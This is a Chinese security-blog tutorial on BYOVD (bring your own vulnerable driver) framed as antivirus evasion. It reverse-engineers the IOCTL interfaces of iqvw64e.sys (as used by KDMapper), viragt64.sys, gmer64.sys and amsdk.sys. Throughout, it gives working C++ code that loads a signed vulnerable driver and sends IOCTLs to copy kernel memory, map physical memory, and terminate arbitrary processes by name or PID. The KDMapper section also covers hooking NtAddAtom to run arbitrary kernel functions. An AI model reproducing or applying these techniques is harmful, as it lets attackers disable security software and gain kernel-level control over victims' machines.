# 免杀基础-BYOVD-先知社区

> **来源**: https://xz.aliyun.com/news/17085  
> **文章ID**: 17085

---

Bring Your Own Vulnerable Driver的简称BYOVD 是一种滥用带签名驱动 执行0环权限操作 达到恶意攻击的技术

实际上就是白驱利用

想要利用该技术 涉及到驱动的一些基础知识

# 驱动通信

常规驱动的通信方法是基于设备对象的(\_DEVICE\_OBJECT) 将信息封装成 \_IRP 进行传输

其中驱动对象存在一个叫MajorFunction(派遣函数)的成员 这是一个数组 存储着通信的回调函数 当用户模式调用了特定函数后会触发对应的回调函数



IRP\_MJ\_CREATE 处理打开设备时的操作

IRP\_MJ\_CLOSE 处理关闭设备时的操作

IRP\_MJ\_DEVICE\_CONTROL 处理IOCTL

```
NTSTATUS
 createRoutine(
     _In_ struct _DEVICE_OBJECT* DeviceObject,
     _Inout_ struct _IRP* Irp
 ) {
 
     DbgPrintEx(77, 0, "create!
");
     return STATUS_SUCCESS;
 }
 
 ....
 DriverObject->MajorFunction[IRP_MJ_CREATE] = createRoutine;
```

这样就注册成功了

## 设备对象

前面说了通信是基于设备对象而非驱动对象的 所以我们要通过IoCreateDevice创建设备

```
NTSTATUS IoCreateDevice(
   [in]           PDRIVER_OBJECT  DriverObject,
   [in]           ULONG           DeviceExtensionSize,
   [in, optional] PUNICODE_STRING DeviceName,
   [in]           DEVICE_TYPE     DeviceType,
   [in]           ULONG           DeviceCharacteristics,
   [in]           BOOLEAN         Exclusive,
   [out]          PDEVICE_OBJECT  *DeviceObject
 );
```

参数依次是 驱动对象

驱动扩展长度 填0的话指针为空 否则系统分配地址

设备名 用于查询获取到设备

设备类型

属性 一般是FILE\_DEVICE\_SECURE\_OPEN

<https://learn.microsoft.com/zh-cn/windows-hardware/drivers/ddi/wdm/ns-wdm-_device_object>



独占 表明是否是独占设备

设备对象 写回一个设备对象

有了设备对象后需要创建符号链接 因为用户模式无法直接访问到设备对象 得通符号连接来访问

内核模式下符号链接以\??\开头 用户模式则是 \\.\

```
#define DEVICE_NAME L"\Device\TestDevice"
 #define SYMBOL_NAME L"\??\TestDevice"
 
 PDEVICE_OBJECT deviceObj = NULL;
 NTSTATUS CreateDeviceAndSymbol(PDRIVER_OBJECT DriverObject) {
     UNICODE_STRING deviceName = { 0 };
     RtlInitUnicodeString(&deviceName, DEVICE_NAME);
     UNICODE_STRING symbolName = { 0 };
     RtlInitUnicodeString(&symbolName, SYMBOL_NAME);
     NTSTATUS status = STATUS_UNSUCCESSFUL;
 
     status = IoCreateDevice(DriverObject, 0, &deviceName, FILE_DEVICE_UNKNOWN, FILE_DEVICE_SECURE_OPEN, FALSE, &deviceObj);
     if (NT_SUCCESS(status)) {
         status = IoCreateSymbolicLink(&symbolName, &deviceName);
     }
     return status;
 }
```

对应的销毁

```
NTSTATUS DestoryDeviceAndSymbol(PDRIVER_OBJECT DriverObject) {
     UNICODE_STRING symbolName = { 0 };
     RtlInitUnicodeString(&symbolName, SYMBOL_NAME);
     NTSTATUS status = STATUS_UNSUCCESSFUL;
 
     status = IoDeleteSymbolicLink(&symbolName);
 
     if (NT_SUCCESS(status)){
         IoDeleteDevice(DriverObject->DeviceObject);
         deviceObj = NULL;
 
     }
 
     return status;
 }
```

现在驱动部分已经就绪了 我们来看用户模式

首先通过CreateFile获得设备的句柄

```
#define DEVICE_NAME L"\\.\TestDevice"
 
     HANDLE hDevice = CreateFile(DEVICE_NAME, FILE_ANY_ACCESS, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
```

然后再次通过CreateFile触发MajorFunction[IRP\_MJ\_CREATE]回调

```
if (hDevice != INVALID_HANDLE_VALUE) {
         char temDir[MAX_PATH] = { 0 };
         GetTempPathA(MAX_PATH, temDir);
         strcat_s(temDir, MAX_PATH, "\1.txt");
         HANDLE hFile = CreateFileA(temDir, GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
     }
     else {
         printf("invalid handle
");
     }
     system("pause");
```



其它MajorFunction也是类似的 最重要的是IRP\_MJ\_DEVICE\_CONTROL

```
NTSTATUS dispatchDeviceControl(
     _In_ struct _DEVICE_OBJECT* DeviceObject,
     _Inout_ struct _IRP* Irp
 ) {
 
     PIO_STACK_LOCATION ioStack = IoGetCurrentIrpStackLocation(Irp);
 
     NTSTATUS status = STATUS_SUCCESS;
 
     INT inputLen = ioStack->Parameters.DeviceIoControl.InputBufferLength;
 
     if (inputLen != 0) {
         ULONG code = ioStack->Parameters.DeviceIoControl.IoControlCode;
 
         switch (code) {
         case DEFAULT_CTL: {
             int* num = Irp->AssociatedIrp.SystemBuffer;
             DbgPrintEx(77,0,"%d", *num);
             break;
         }
 
         default:
             status = STATUS_INVALID_DEVICE_REQUEST;
             DbgPrintEx(77, 0, "Unknown Code: 0x%x", code);
             break;
         }
     }
     else {
         status = STATUS_INVALID_PARAMETER;
         DbgPrintEx(77, 0, "Invalid input length: 0");
     }
 
     Irp->IoStatus.Status = status;
     IoCompleteRequest(Irp, 0);
     return status;
 
 }
```

用户模式 通过DeviceIoControl进行交互

```
#define CODE_CTR_INDEX 0x800
 #define DEFAULT_CTL CTL_CODE(FILE_DEVICE_UNKNOWN,CODE_CTR_INDEX,METHOD_BUFFERED,FILE_ANY_ACCESS)
 
     HANDLE hDevice = CreateFile(DEVICE_NAME, FILE_ANY_ACCESS, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
     if (hDevice != INVALID_HANDLE_VALUE) {
     
         int num = 114514;
         DWORD ret = NULL;
         BOOL bRet = DeviceIoControl(hDevice, DEFAULT_CTL, &num, sizeof(num), NULL, NULL, &ret, NULL);
 
         std::cout << bRet << std::endl;
     }
     else {
         printf("invalid handle
");
     }
     system("pause");
```



只要知道 可以通过DeviceIoControl传不同的控制码 能让对应内核走不同函数即可

# KDMapper

KDMapper是一个利用iqvw64e.sys驱动 将未签名驱动映射到内存的一个项目

<https://github.com/TheCruZ/kdmapper/>

我们简要看一下iqvw64e.sys的IOCTL部分

sub\_11150是IRP\_MJ\_DEVICE\_CONTROL的回调函数

```
__int64 __fastcall sub_11150(__int64 a1, IRP *irp)
 {
   struct _IO_STACK_LOCATION *CurrentStackLocation; // rsi
   unsigned int status; // ebx
   PNAMED_PIPE_CREATE_PARAMETERS inputBuf; // rcx
   DWORD CTLCODE; // edx
   unsigned int CompletionMode; // eax
 
   CurrentStackLocation = irp->Tail.Overlay.CurrentStackLocation;// IoGetCurrentIrpStackLocation
   status = 0xC000000D;
   if ( MmIsAddressValid(CurrentStackLocation->Parameters.CreatePipe.Parameters) == 1 )
   {
     inputBuf = CurrentStackLocation->Parameters.CreatePipe.Parameters;// 0x20 Type3InputBuffer
     CTLCODE = CurrentStackLocation->Parameters.Read.ByteOffset.LowPart;// 0x18 IoControlCode
     if ( inputBuf )
     {
       CompletionMode = inputBuf->CompletionMode;
       if ( CompletionMode < 0x400 )
       {
         if ( CompletionMode )
         {
           switch ( CTLCODE )
           {
             case 0x80862007:
               status = sub_113E0();
               break;
             case 0x8086200B:
               status = sub_11A90();
               break;
             case 0x8086200F:
               status = sub_11350();
               break;
             case 0x80862013:
               status = sub_14440();
               break;
             default:
               DbgPrint_K("Nal Windows DriverDeviceControl: Invalid IOCTL code 0x%0x
", CTLCODE);
               break;
           }
         }
       }
     }
   }
   else
   {
     DbgPrint_K("NalDeviceControl: InputBuffer was incorrect
");
   }
   irp->IoStatus.Information = 0LL;
   irp->IoStatus.Status = status;
   IofCompleteRequest(irp, 0);
   return status;
 }
```

a1是一个结构



a1+0 决定调用了什么方法

其中case 0x33 调用了memmove



```
void *__fastcall sub_120B0(void *Dst, void *Src, size_t MaxCount)
 {
   if ( KeGetCurrentIrql() <= 2u && MmIsAddressValid(Dst) && MmIsAddressValid(Src) )
     memmove(Dst, Src, MaxCount);
   return Dst;
 }
```

于是a1+24 是PVOID Dst a1+16 PVOID Src a1+32 SIZE\_T MaxCount

至于a1+8 没看见用到的地方

可以构造出一个通信结构

```
typedef struct _COPY_MEM_STRUCT{
     ULONG64 CODE;       // 0x0
     ULONG64 Un1;        // 0x8
     ULONG64 Src;        // 0x10
     ULONG64 DEST;       // 0x18
     SIZE_T  length;     // 0x20
 }COPY_MEM_STRUCT,*PCOPY_MEM_STRUCT;
```

case 0x32 也是调用的sub\_120B0 但是对src dst进行了判空

case 0x25sub\_122E0 获取物理地址



a1 + 24 Liner Addr a1 + 16 Physic Adddr

```
typedef struct _GET_PHYSICAL_ADDR_STRUCT{
     ULONG64 CODE;           // 0x0
     ULONG64 Un1;            // 0x8
     ULONG64 PhysicAddr;     // 0x10
     ULONG64 LinerAddr;      // 0x18
 }GET_PHYSICAL_ADDR_STRUCT,*PGET_PHYSICAL_ADDR_STRUCT;
```

case 0x19sub\_12E00



```
__int64 __fastcall sub_12E00(_QWORD *a1, PHYSICAL_ADDRESS a2, unsigned int *a3)
 {
   SIZE_T v6; // rax
   unsigned int v7; // ebx
   PVOID v8; // rdi
 
   if ( !MmIsAddressValid(a1) || !MmIsAddressValid(a3) || !a2.QuadPart )
     return 1LL;
   v6 = *a3;
   v7 = -932544508;
   if ( (_DWORD)v6 )
   {
     v8 = MmMapIoSpace(a2, v6, MmNonCached);
     DbgPrint_K("NalMmapAddressEx: Vaddress = 0x%p
", v8);
     if ( v8 )
     {
       *a1 = v8;
       DbgPrint_K("NalMmapAddressEx: *VirtualAddress = 0x%p (not mapped to user)
", v8);
       if ( *a1 )
         return 0;
     }
   }
   return v7;
 }
```

MmMapIoSpace 映射物理地址到线性

构造出结构

```
typedef struct _MAP_PHYSICAL_ADDR_STRUCT{
     ULONG64 CODE;                   // 0x0
     ULONG64 Un1;                    // 0x8
     ULONG64 Ret;                    // 0x10
     ULONG64 LinerAddr;              // 0x18
     ULONG64 PhysicAddr;             // 0x20 
     SIZE_T NumberOfBytes;           // 0x28
 }MAP_PHYSICAL_ADDR_STRUCT,*PMAP_PHYSICAL_ADDR_STRUCT;
```

case 0x1a

```
__int64 __fastcall sub_124A0(PVOID BaseAddress, __int64 a2, unsigned int a3)
 {
   SIZE_T v4; // rbx
 
   v4 = a3;
   if ( !MmIsAddressValid(BaseAddress) || !(_DWORD)v4 )
     return 1LL;
   DbgPrint_K("NalUnmapAddress: Unmapping non-usermode mapped address 0x%p, Length %d
", BaseAddress, v4);
   MmUnmapIoSpace(BaseAddress, v4);
   return 0LL;
 }
```

MmUnmapIoSpace sub\_124A0 f5参数有问题



构造出结构

```
typedef struct _UNMAP_PHYSICAL_ADDR_STRUCT{
     ULONG64 CODE;                   // 0x0
     ULONG64 Un1;                    // 0x8
     ULONG64 Ret;                    // 0x10
     ULONG64 LinerAddr;              // 0x18
     ULONG64 Un2;                    // 0x20 
     SIZE_T NumberOfBytes;           // 0x28
 }UNMAP_PHYSICAL_ADDR_STRUCT,*PUNMAP_PHYSICAL_ADDR_STRUCT;
```

遵循以上结构和对应的IOCTL 我们就可以实现几个内存相关的操作

这里我们读EPROCESS举例

3环正常加载驱动 找到符号链接 获取设备句柄



```
#include <iostream>
 #include <Windows.h>
 
 #define MEM_COPY 0x80862007
 
 HANDLE hDevice = NULL;
 
 
 typedef struct _COPY_MEM_STRUCT {
     ULONG64 CODE;       // 0x0
     ULONG64 Un1;        // 0x8
     ULONG64 Src;        // 0x10
     ULONG64 DEST;       // 0x18
     SIZE_T  length;     // 0x20
 }COPY_MEM_STRUCT, * PCOPY_MEM_STRUCT;
 
 
 BOOLEAN copyMem(LPVOID srcAddr,LPVOID destAddr,SIZE_T size) {
     PCOPY_MEM_STRUCT memStruct = (PCOPY_MEM_STRUCT)malloc(sizeof(COPY_MEM_STRUCT));
     memset(memStruct, 0, sizeof(COPY_MEM_STRUCT));
     DWORD bytesWritten = 0;
 
     memStruct->CODE = 0x33;
     memStruct->Src = (ULONG64)srcAddr;
     memStruct->DEST = (ULONG64)destAddr;
     memStruct->length = size;
     BOOLEAN isSuccess = DeviceIoControl(hDevice, 0x80862007, memStruct, sizeof(memStruct), NULL, NULL, &bytesWritten, NULL);
     if (!isSuccess) {
         printf("DeviceIoControl Failed!! [-]: 0x%llx
", GetLastError());
     }
     return isSuccess;
 }
 
 
 BOOLEAN LoadDriver(LPCWSTR driverName, LPCWSTR driverPath) {
 
     SC_HANDLE ScMgr = OpenSCManager(NULL, NULL, SC_MANAGER_CREATE_SERVICE);
     if (!ScMgr) {
         std::cerr << "OpenSCManager failed: " << GetLastError() << std::endl;
         return FALSE;
     }
     SC_HANDLE hService;
     hService = CreateService(ScMgr, driverName, driverName, SERVICE_START | SERVICE_STOP | DELETE, SERVICE_KERNEL_DRIVER, SERVICE_DEMAND_START, SERVICE_ERROR_IGNORE, driverPath, NULL, NULL, NULL, NULL, NULL);
 
     if (!hService) {
         if (GetLastError() == ERROR_SERVICE_EXISTS) {
             hService = OpenService(ScMgr, driverName, SERVICE_START | SERVICE_STOP | DELETE);
         }
         else {
             std::cerr << "CreateService failed: " << GetLastError() << std::endl;
             CloseServiceHandle(ScMgr);
             return FALSE;
         }
     }
 
     BOOLEAN bSuccess = StartService(hService, NULL, NULL);
     if (!bSuccess) {
         std::cerr << "StartService failed: " << GetLastError() << std::endl;
 
     }
     CloseServiceHandle(hService);
     CloseServiceHandle(ScMgr);
 
     return TRUE;
 }
 BOOLEAN UnLoadDriver(LPCWSTR driverName) {
     SC_HANDLE ScMgr = OpenSCManager(NULL, NULL, SC_MANAGER_CREATE_SERVICE);
     if (!ScMgr) {
         std::cerr << "OpenSCManager failed: " << GetLastError() << std::endl;
         return false;
     }
     SC_HANDLE hService = OpenService(ScMgr, driverName, SERVICE_START | SERVICE_STOP | DELETE);
     SERVICE_STATUS serviceStatus = {};
     if (ControlService(hService, SERVICE_CONTROL_STOP, &serviceStatus)) {
         std::cout << "Service stopped successfully." << std::endl;
     }
     else if (GetLastError() != ERROR_SERVICE_NOT_ACTIVE) {
         std::cerr << "ControlService failed: " << GetLastError() << std::endl;
         CloseServiceHandle(hService);
         CloseServiceHandle(ScMgr);
         return false;
     }
 
     if (!DeleteService(hService)) {
         std::cerr << "DeleteService failed: " << GetLastError() << std::endl;
         CloseServiceHandle(hService);
         CloseServiceHandle(ScMgr);
         return false;
     }
 
     CloseServiceHandle(hService);
     CloseServiceHandle(ScMgr);
     return true;
 
 
 }
 BOOLEAN initDriverComm() {
     hDevice = CreateFile(L"\\.\Nal", GENERIC_WRITE | GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
     if (hDevice != INVALID_HANDLE_VALUE) {
         return TRUE;
     }
 
     printf("get Device Failed!! [-]: 0x%llx
", GetLastError());
     return FALSE;
 }
 
 int main(){
     UnLoadDriver(L"iqvw64eDriver");
     LoadDriver(L"iqvw64eDriver", L"C:\iqvw64e.sys");
     initDriverComm();
 
     LPVOID lpMem = malloc(16);
     memset(lpMem, 0, 16);
 
     BOOLEAN bret = copyMem((LPVOID)0xffff978f804890c0, lpMem, 16);
     printf("lpMem[+]: %llx
", *(PULONG64)lpMem);
 
     system("pause");
 
 
     UnLoadDriver(L"iqvw64eDriver");
 }
```

执行发现失败了 返回0x57参数错误 我们下断看看在哪儿出的问题



code是对的

然后判断Type3InputBuffer的inputbufferlength 要小于0x400且不为0



这里为0接着返回0xC000000D

对照结构看一下 发现这个值是Un1 那随便传个值小于400进去就行



```
LPVOID lpMem = malloc(16);
     memset(lpMem, 0, 16);
 
     BOOLEAN bret = copyMem((LPVOID)0xffff978f804890c0, lpMem, 16);
     printf("lpMem[+]: %llx
", *(PULONG64)lpMem);
```





## hook ptr

此时我们只能读写内存 并不能执行内核模式函数 现在回头继续看Kdmapper 这里通过hook非常用函数进行了执行任意内核函数

kdmapper::MapDriver中调用了intel\_driver::AllocatePool进行内核内存分配




intel\_driver::ntoskrnlAddr 是通过NtQuerySystemInformation查询SystemModuleInformation拿到的

GetKernelModuleExport是解析导出表 拿到ExAllocatePool的地址

核心在于CallKernelFunction

参数检测部分不管

首先获取用户模式NtAddAtom的地址



48E8 xxxxxxxx FFE0 call 完 jmp rax 准备好shellcode模板

然后获取ntoskernl的NtAddAtom



hook NtAddAtom



调用



这里我们接着看看ReadMemory 和 WriteToReadOnlyMemory

```
bool intel_driver::MemCopy(HANDLE device_handle, uint64_t destination, uint64_t source, uint64_t size) {
     if (!destination || !source || !size)
         return 0;
 
     COPY_MEMORY_BUFFER_INFO copy_memory_buffer = { 0 };
 
     copy_memory_buffer.case_number = 0x33;
     copy_memory_buffer.source = source;
     copy_memory_buffer.destination = destination;
     copy_memory_buffer.length = size;
 
     DWORD bytes_returned = 0;
     return DeviceIoControl(device_handle, ioctl1, &copy_memory_buffer, sizeof(copy_memory_buffer), nullptr, 0, &bytes_returned, nullptr);
 }
 
 bool intel_driver::ReadMemory(HANDLE device_handle, uint64_t address, void* buffer, uint64_t size) {
     return MemCopy(device_handle, reinterpret_cast<uint64_t>(buffer), address, size);
 }
```

走0x33 memmove

而WriteToReadOnlyMemory 通过修改物理页强改PAGE段内存

```
bool intel_driver::GetPhysicalAddress(HANDLE device_handle, uint64_t address, uint64_t* out_physical_address) {
     if (!address)
         return 0;
 
     GET_PHYS_ADDRESS_BUFFER_INFO get_phys_address_buffer = { 0 };
 
     get_phys_address_buffer.case_number = 0x25;
     get_phys_address_buffer.address_to_translate = address;
 
     DWORD bytes_returned = 0;
 
     if (!DeviceIoControl(device_handle, ioctl1, &get_phys_address_buffer, sizeof(get_phys_address_buffer), nullptr, 0, &bytes_returned, nullptr))
         return false;
 
     *out_physical_address = get_phys_address_buffer.return_physical_address;
     return true;
 }
 
 bool intel_driver::WriteToReadOnlyMemory(HANDLE device_handle, uint64_t address, void* buffer, uint32_t size) {
     if (!address || !buffer || !size)
         return false;
 
     uint64_t physical_address = 0;
 
     if (!GetPhysicalAddress(device_handle, address, &physical_address)) {
         Log(L"[-] Failed to translate virtual address 0x" << reinterpret_cast<void*>(address) << std::endl);
         return false;
     }
 
     const uint64_t mapped_physical_memory = MapIoSpace(device_handle, physical_address, size);
 
     if (!mapped_physical_memory) {
         Log(L"[-] Failed to map IO space of 0x" << reinterpret_cast<void*>(physical_address) << std::endl);
         return false;
     }
 
     bool result = WriteMemory(device_handle, mapped_physical_memory, buffer, size);
 
 #if defined(DISABLE_OUTPUT)
     UnmapIoSpace(device_handle, mapped_physical_memory, size);
 #else
     if (!UnmapIoSpace(device_handle, mapped_physical_memory, size))
         Log(L"[!] Failed to unmap IO space of physical address 0x" << reinterpret_cast<void*>(physical_address) << std::endl);
 #endif
 
 
     return result;
 }
```

## 内存加载

在内核申请完非分页内存后 进行内存加载那一套

PE拉伸

先是复制PE头



修复重定位和导入表



修复cookie



call DriverEntry



至此内存加载完毕 通过iqvw64e.sys拉起了一个驱动

后续清理部分代码不在此分析

# viragt64.sys

导入表中发现ZwTerminateProcess



来自sub\_12C04 这里MasterIrp实际是SystemBuffer



```
__int64 __fastcall sub_12C04(__int64 a1, char *targetName)
 {
   ULONG v3; // edi
   unsigned int v4; // r12d
   PSYSTEM_PROCESS_INFORMATION ppi; // rax
   PSYSTEM_PROCESS_INFORMATION ppi_; // rsi
   NTSTATUS SystemInformation; // eax
   PSYSTEM_PROCESS_INFORMATION currentPpi; // rbp
   const wchar_t *currentName; // rbx
   unsigned __int64 v10; // rcx
   const wchar_t *v11; // rdi
   bool v12; // zf
   char *v13; // rdi
   __int64 v14; // rcx
   char v15; // al
   char *v16; // rdi
   char *v17; // rax
   signed __int64 v18; // rdi
   int v19; // edx
   int v20; // ecx
   HANDLE pid; // rax
   void *ProcessHandle; // [rsp+20h] [rbp-188h] BYREF
   _CLIENT_ID ClientId; // [rsp+28h] [rbp-180h] BYREF
   struct _OBJECT_ATTRIBUTES ObjectAttributes; // [rsp+38h] [rbp-170h] BYREF
   struct _STRING DestinationString; // [rsp+68h] [rbp-140h] BYREF
   char Dest[256]; // [rsp+80h] [rbp-128h] BYREF
 
   v3 = 0x8000;
   v4 = 0;
   while ( 1 )
   {
     ppi = (PSYSTEM_PROCESS_INFORMATION)ExAllocatePoolWithTag(PagedPool, v3, 0x74676976u);
     ppi_ = ppi;
     if ( !ppi )
       return 0LL;
     SystemInformation = ZwQuerySystemInformation(SystemProcessInformation, ppi, v3, 0LL);
     if ( SystemInformation != 0xC0000004 )      // STATUS_INFO_LENGTH_MISMATCH
       break;
     ExFreePoolWithTag(ppi_, 0);
     v3 *= 2;
   }
   if ( SystemInformation >= 0 )
   {
     for ( currentPpi = ppi_; ; currentPpi = (PSYSTEM_PROCESS_INFORMATION)((char *)currentPpi
                                                                         + currentPpi->NextEntryOffset) )
     {
       RtlInitAnsiString(&DestinationString, &SourceString);
       currentName = L"Idle";
       if ( currentPpi->ImageName.Buffer )
         currentName = currentPpi->ImageName.Buffer;
       memset(Dest, 0, sizeof(Dest));
       v10 = 0xFFFFFFFFFFFFFFFFuLL;
       v11 = currentName;
       do
       {
         if ( !v10 )
           break;
         v12 = *v11++ == 0;
         --v10;
       }
       while ( !v12 );
       wcstombs(Dest, currentName, -(int)v10 - 2);
       strcpy(qword_1DCE0, "Processo: ");
       ++v4;
       v13 = &qword_1DCE0[strlen(qword_1DCE0) + 1];
       v14 = 0LL;
       do
       {
         v15 = Dest[v14++];
         v13[v14 - 2] = v15;
       }
       while ( v15 );
       v16 = strupr(targetName);
       v17 = strupr(Dest);
       v18 = v16 - v17;
       do
       {
         v19 = (unsigned __int8)v17[v18];
         v20 = (unsigned __int8)*v17 - v19;
         if ( v20 )
           break;
         ++v17;
       }
       while ( v19 );
       if ( !v20 )
       {
         memset(&ObjectAttributes.RootDirectory, 0, 0x14);
         ObjectAttributes.SecurityDescriptor = 0LL;
         ObjectAttributes.SecurityQualityOfService = 0LL;
         ObjectAttributes.Length = 0x30;
         pid = currentPpi->UniqueProcessId;
         ClientId.UniqueThread = 0LL;
         ClientId.UniqueProcess = pid;
         if ( ZwOpenProcess(&ProcessHandle, 0x1F0FFFu, &ObjectAttributes, &ClientId) >= 0 )
           ZwTerminateProcess(ProcessHandle, 0x63);
       }
       if ( !currentPpi->NextEntryOffset )
         break;
     }
   }
   ExFreePoolWithTag(ppi_, 0);
   return v4;
 }
```

ZwQuerySystemInformation查询进程信息 遍历获取进程名 匹配后调用ZwTerminateProcess杀进程

对应CTLCODE 0x82730030

符号链接 \DosDevices\Viragtlt



```
BOOLEAN initDriverComm() {
     // hDevice = CreateFile(L"\\.\Nal", GENERIC_WRITE | GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
     hDevice = CreateFile(L"\\.\Viragtlt", GENERIC_WRITE | GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
     if (hDevice != INVALID_HANDLE_VALUE) {
         return TRUE;
     }
 
     printf("get Device Failed!! [-]: 0x%llx
", GetLastError());
     return FALSE;
 }
```

```
LoadDriver(L"viragt64Driver", L"C:\viragt64.sys");
     initDriverComm();
 
     DWORD bytesWritten = 0;
     char  targetName[] = "notepad.exe";
     PCHAR inMem = (PCHAR)malloc(12);
     memset(inMem, 0, 12);
     memcpy(inMem, targetName, 12);
 
     BOOLEAN isSuccess = DeviceIoControl(hDevice, 0x82730030, inMem, sizeof(inMem), NULL, NULL, &bytesWritten, NULL);
     printf("isSuccess[+]: %llx
", isSuccess);
     system("pause");
```

并没有成功 好像是传过去的字符串有点问题



长度传错了..

```
DWORD bytesWritten = 0;
     char  targetName[] = "notepad.exe";
     PCHAR inMem = (PCHAR)malloc(12);
     memset(inMem, 0, 12);
     memcpy(inMem, targetName, 12);
 
     BOOLEAN isSuccess = DeviceIoControl(hDevice, 0x82730030, inMem, 12, NULL, NULL, &bytesWritten, NULL);
     printf("isSuccess[+]: %llx
", isSuccess);
     system("pause");
```



# gmer64.sys

符号链接是动态生成的 加载驱动时的DisplayName





```
__int64 __fastcall sub_12448(__int64 a1, IRP *a2)
 {
   unsigned int v2; // edi
   IO_STATUS_BLOCK *p_IoStatus; // r11
   struct _IO_STACK_LOCATION *CurrentStackLocation; // rcx
   int IoControlCode; // r10d
   PVOID *SystemBuffer; // rdx
   PVOID *UserBuffer; // r9
 
   v2 = 0;
   p_IoStatus = &a2->IoStatus;
   CurrentStackLocation = a2->Tail.Overlay.CurrentStackLocation;
   a2->IoStatus.Information = 0LL;
   a2->IoStatus.Status = 0;
   IoControlCode = CurrentStackLocation->Parameters.DeviceIoControl.IoControlCode;
   SystemBuffer = (PVOID *)a2->AssociatedIrp.SystemBuffer;
   UserBuffer = SystemBuffer;
   if ( CurrentStackLocation->MajorFunction == 2 )
   {
     sub_124E4(CurrentStackLocation, SystemBuffer, a1, SystemBuffer);
   }
   else if ( CurrentStackLocation->MajorFunction == 0xE )// io
   {
     if ( (IoControlCode & 3) == 3 )
       UserBuffer = (PVOID *)a2->UserBuffer;
     v2 = sub_1132C(
            (__int64)CurrentStackLocation->FileObject,
            SystemBuffer,
            CurrentStackLocation->Parameters.DeviceIoControl.InputBufferLength,
            UserBuffer,
            CurrentStackLocation->Parameters.DeviceIoControl.OutputBufferLength,
            IoControlCode,
            (unsigned int *)p_IoStatus,
            a1);
   }
   IofCompleteRequest(a2, 0);
   return v2;
 }
```

case 0x9876C094sub\_164C0



传个pid直接杀



# amsdk.sys



0x80002048





跟进sub\_140005438 判断出a1是pid



判断先前模式决定走NT还是ZW openprocess




